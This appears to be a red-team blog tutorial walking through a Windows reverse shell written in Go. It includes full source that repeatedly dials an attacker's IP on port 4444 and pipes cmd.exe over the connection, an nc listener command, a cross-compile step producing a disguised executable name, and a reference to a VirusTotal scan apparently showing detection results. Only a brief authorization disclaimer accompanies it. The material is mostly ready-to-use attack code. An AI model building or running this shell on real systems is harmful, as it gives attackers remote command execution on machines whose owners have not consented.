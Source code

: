 ```yaml
---
layout: post
title: "2024-06-19 Reverse Shell in Go"
date: 2024-06-19
categories: Windows-Reverse-Shell
tags: redteam, mitre, killchain, cpent, LPT, cpts, oscp, exploit
permalink: /go-revshell/
---
```

# Building a Reverse Shell in Go

In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

## Understanding the Code

Let's break down the code step by step:

 ### Package and Imports

```go
package main

import (
    "fmt"
    "net"
    "os"
    "os/exec"
    "time"
)
```

- `package main`: Indicates that this Go file is the main package, which can be executed.
- `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

### Variables

```go
var (
    a1 = "192.168.23.129"
    a2 = 4444
)
```

- `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

### Function `e1()`

```go
func e1() {
    if a1 == "0.0.0.0" || a2 == 0 {
        fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
        os.Exit(1)
    }
}
```

- `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

### Function `e2()`

```go
func e2() net.Conn {
    var c net.Conn
    var err error
    for {
        c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
        if err == nil {
            break
        }
        time.Sleep(5 * time.Second)
    }
    return c
}
```

- `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

### Function `e3()`

```go
func e3(c net.Conn) {
    cmd := exec.Command("cmd")
    cmd.Stdin = c
    cmd.Stdout = c
    cmd.Stderr = c
    err := cmd.Start()
    if err != nil {
        fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
        os.Exit(1)
    }
    cmd.Wait()
}
```

- `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

### Main Function

```go
func main() {
    e1()
    c := e2()
    e3(c)
}
```

- The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

### Running the Code

To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

```bash
nc -nlvp 4444
```

Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Build
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


### Virustotal Scan

![alt text](https://raw.githubusercontent.com/psyrun/psyrun.github.io/master/_posts/go-revshell.png)


### session

![alt text](https://raw.githubusercontent.com/psyrun/psyrun.github.io/master/_posts/go-revshell-2.png)



### Source 
https://github.com/psyrun/Go-ReverseShell.git

#peacout #opensource


